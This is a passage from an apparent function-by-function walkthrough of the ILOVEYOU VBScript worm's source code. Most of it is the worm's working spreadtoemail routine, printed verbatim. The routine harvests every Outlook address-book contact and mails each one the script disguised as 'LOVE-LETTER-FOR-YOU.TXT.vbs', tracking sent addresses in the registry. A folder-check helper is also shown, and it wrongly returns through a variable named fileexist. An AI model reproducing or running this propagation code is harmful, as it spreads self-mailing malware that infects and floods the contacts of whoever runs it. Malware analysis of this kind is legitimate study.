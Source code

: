 It checks for the existence of a file specified by the filespec parameter. It return 0 if the file exists otherwise 1.

### folderexist

```vbs
function folderexist(folderspec)
On Error Resume Next
dim msg
if (fso.GetFolderExists(folderspec)) then
msg = 0
else
msg = 1
end if
fileexist = msg
end function
```

It checks for the existence of a folder specified by the folderspec parameter. It return 0 if the folder exists otherwise 1.

### spreadtoemail

```vbs
sub spreadtoemail()
On Error Resume Next
dim x,a,ctrlists,ctrentries,malead,b,regedit,regv,regad
set regedit=CreateObject("WScript.Shell")
set out=WScript.CreateObject("Outlook.Application")
set mapi=out.GetNameSpace("MAPI")
for ctrlists=1 to mapi.AddressLists.Count
set a=mapi.AddressLists(ctrlists)
x=1
regv=regedit.RegRead("HKEY_CURRENT_USER\Software\Microsoft\WAB\"&a)
if (regv="") then
regv=1
end if
if (int(a.AddressEntries.Count)>int(regv)) then
for ctrentries=1 to a.AddressEntries.Count
malead=a.AddressEntries(x)
regad=""
regad=regedit.RegRead("HKEY_CURRENT_USER\Software\Microsoft\WAB\"&malead)
if (regad="") then
set male=out.CreateItem(0)
male.Recipients.Add(malead)
male.Subject = "ILOVEYOU"
male.Body = vbcrlf&"kindly check the attached LOVELETTER coming from me."
male.Attachments.Add(dirsystem&"\LOVE-LETTER-FOR-YOU.TXT.vbs")
male.Send
regedit.RegWrite "HKEY_CURRENT_USER\Software\Microsoft\WAB\"&malead,1,"REG_DWORD"
end if
x=x+1
next
regedit.RegWrite "HKEY_CURRENT_USER\Software\Microsoft\WAB\"&a,a.AddressEntries.Count
else
regedit.RegWrite "HKEY_CURRENT_USER\Software\Microsoft\WAB\"&a,a.AddressEntries.Count
end if
next
Set out=Nothing
Set mapi=Nothing
end sub
```
